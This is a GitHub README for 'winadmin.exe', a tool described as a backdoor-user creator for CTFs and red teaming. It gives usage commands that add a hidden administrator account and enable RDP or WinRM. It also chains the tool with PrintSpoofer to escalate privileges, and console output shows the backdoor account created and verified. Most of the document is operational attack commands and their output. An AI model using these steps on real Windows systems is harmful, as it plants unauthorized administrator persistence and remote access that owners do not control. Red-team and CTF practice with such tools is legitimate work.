 # winadmin.exe

`winadmin.exe` is a tool designed for creating a backdoor user and enabling remote access for the user in CTFs (Capture The Flag) and Red Teaming engagements. It allows you to quickly add a new user to the administrators group and enable remote access protocols like RDP (Remote Desktop Protocol) and WinRM (Windows Remote Management) on Windows systems.

## Usage

```bash
.\winadmin.exe -u <username> -p <password> [-e {rdp|winrm}]
```
OR
```bash
.\PrintSpoofer.exe -i -c "C:\Windows\Temp\winadmin.exe -u <username> -p <password> [-e {rdp|winrm}]"
```

- `-u <username>`: Specify the username for the new user.
- `-p <password>`: Specify the password for the new user.
- `-e {rdp|winrm}`: Enable remote access (RDP or WinRM) for the new user. Use `rdp` for Remote Desktop Protocol access or `winrm` for Windows Remote Management access.

**Note:** The tool must be executed with administrator privileges.

## Examples

1. To add a new user to the administrators group:

```bash
.\winadmin.exe -u kryptohaker -p P@ssw0rd1
```

2. To add a new user to the administrators group and enable RDP access:

```bash
.\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e rdp
```

3. To add a new user to the administrators group and enable WinRM access:

```bash
.\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e winrm
```

## Scenario (I): PrintSpoofer

```
PS C:\Temp> .\winadmin.exe
.\winadmin.exe
Usage: C:\Temp\winadmin.exe -u <username> -p <password> [-e {rdp|winrm}]
  -u <username> : Specify the username for the new user.
  -p <password> : Specify the password for the new user.
  -e {rdp|winrm} : Enable remote access (RDP or WinRM) for the new user.
PS C:\Temp>
PS C:\Temp> .\PrintSpoofer.exe -i -c "C:\Temp\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e rdp"        
.\PrintSpoofer.exe -i -c "C:\Temp\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e rdp"                    
[+] Found privilege: SeImpersonatePrivilege                                                           
[+] Named pipe listening...                                                                           
[+] CreateProcessAsUser() OK                                                                          
The command completed successfully.                                                                   
                                                                                                      
The command completed successfully.                                                                   
                                                                                                      
The command completed successfully.                                                                   
                                                                                                      
The operation completed successfully.                                                                 
                                                                                                      
Updated 3 rule(s).                                                                                    
Ok.                                                                                                   
                                                                                                      
****************************************************                                                  
***** winadmin.exe - Backdoor User Creation Tool ******                                               
****************************************************                                                  
Author: Kryptohaker                                                                                   
URL: https://github.com/kryptohaker                                                                   
****************************************************                                                  
                                                                                                      
[+] kryptohaker user was successfully created.                                                        
[+] kryptohaker user was added to the local administrators' group.                                    
[+] RDP access was enabled for kryptohaker user.                                                      
PS C:\Temp> net user kryptohaker 

net user kryptohaker
User name                    kryptohaker
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/3/2023 1:18:40 AM
Password expires             9/14/2023 1:18:40 AM
Password changeable          8/4/2023 1:18:40 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users
Global Group memberships     *None
The command completed successfully.
```

## Disclaimer

This tool is intended for educational and ethical purposes only. Misuse of this tool for any malicious or illegal activities is strictly prohibited. The author is not responsible for any damage or loss caused by the misuse of this tool.

## License

This project is licensed under the [End-User License Agreement (EULA)](LICENSE).
